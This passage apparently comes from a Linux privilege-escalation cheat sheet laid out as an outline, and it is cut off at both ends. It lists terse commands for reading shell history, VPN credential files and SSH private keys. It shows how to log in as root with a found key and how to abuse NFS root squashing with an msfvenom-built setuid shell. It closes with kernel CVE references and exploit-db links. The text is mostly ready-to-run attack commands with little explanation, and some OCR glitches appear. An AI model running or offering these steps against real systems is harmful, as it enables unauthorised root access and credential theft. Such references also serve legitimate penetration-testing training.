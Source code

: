 				- $ cat ~/.*history | less

			- Exploitation

				- $ su root

		- Config Files

			- Detection

				- $ ls
				- $ cat myvpn.ovpn
				- $ cat /etc/openvpn/auth.txt

			- Exploitation

				- $ su root

		- SSH Keys

			- Detection

				- $ ls -l /.ssh
				- $ find / -name authorized_keys 2> /dev/null
				- $ find / -name id_rsa 2> /dev/null

			- Exploitation

				- $ cat /.ssh/root_key
				- # chmod 600 root_key
				- # ssh -i root_key root@$IP

	- NFS

		- Root Squashing

			- Detection

				- $ showmount -e $IP
				- $ nmap –sV –script=nfs-showmount $IP $LOCAL_DIRECTORY

			- Exploitation

				- $ cat /etc/exports
				- $ showmount -e $IP
				- # mkdir /tmp/nfs
# mount -o rw,vers=2 $IP:/tmp /tmp/nfs
				- # msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
				- # chmod +xs /tmp/nfs/shell.elf
				- $ /tmp/shell.elf

- Common Exploits

	- CVE-2010-3904

		- Kernel <= 2.6.36.rc8
		- https://www.exploit-db.com/exploits/15285

	- CVE-2010-4258
